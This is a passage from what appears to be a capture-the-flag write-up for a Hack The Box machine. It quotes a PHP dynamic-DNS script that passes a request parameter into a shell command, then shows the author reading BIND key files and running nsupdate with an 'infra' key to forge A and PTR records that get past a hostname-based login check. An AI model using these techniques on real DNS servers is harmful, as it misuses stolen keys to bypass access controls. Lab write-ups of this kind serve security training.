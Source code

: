 ```php
    // Check for a valid domain
    list($h,$d) = explode(".",$_GET['hostname'],2);
    $validds = array('dnsalias.htb','dynamicdns.htb','no-ip.htb');
    if(!in_array($d,$validds)) { echo "911 [wrngdom: $d]\n"; exit; }
    // Update DNS entry
    $cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
    system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
    // Return good or 911
    if (!$retval) {
      echo "good $myip\n";
    } else {
      echo "911 [nsupdate failed]\n"; exit;
    }
  } else {
    echo "nochg $myip\n";
  }
?>
```

Furthermore, it looks like the hostname restriction is just performed in this PHP file, so if we can bypass the file and directly execute the `nsupdate` command, maybe we can get ourself assigned to a correct domain that is allowed logging in.

It looks like there's a key file referenced in the PHP script called `/etc/bind/ddns.key`, so taking a look at the `/etc/bind` directory, there are a few other interesting files:

```bash
$ ls /etc/bind
...
ddns.key
infra.key
rndc.key
...
```

Since we want a `*.infra.dyna.htb` domain, I bet that `infra.key` file is what we will need to use.

After a bit more googling, I determined that what we need to do is update and create an A record, then assign our ip as a PTR to that record.

```bash
$ nsupdate -k /etc/bind/infra.key
update add api.infra.dyna.htb 86400 A 10.10.14.5

update add 5.14.10.10.in-addr.arpa 86400 PTR api.infra.dyna.htb
show
Outgoing update query:
;; ->>HEADER<<- opcode: UPDATE, status: NOERROR, id:      0
;; flags:; ZONE: 0, PREREQ: 0, UPDATE: 0, ADDITIONAL: 0
;; UPDATE SECTION:
5.14.10.10.in-addr.arpa. 86400  IN      PTR     api.infra.dyna.htb.

send
quit
```
